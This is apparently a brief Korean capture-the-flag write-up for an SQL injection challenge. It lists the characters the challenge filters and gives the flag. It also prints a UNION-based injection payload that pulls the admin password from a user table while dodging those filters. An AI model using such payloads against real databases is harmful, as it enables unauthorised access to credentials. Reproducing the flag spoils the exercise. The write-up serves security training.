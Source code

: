 # 라업
'or', 'and', '"', ' ', '=', '<', '>', '\\' 을 사용하지 않고 해야한다.
우회를 할 수 있다.


# 플래그
K0{good_4ft3rn00n!}
guest' union SELECT 1, x, 3 FROM ( SELECT 1 ,2 ,3 as x union select * FROM user LIMIT 2, 1) AS unknown LIMIT 1, 1# 

# 설명
SQL injection
admin비밀번호가 플래그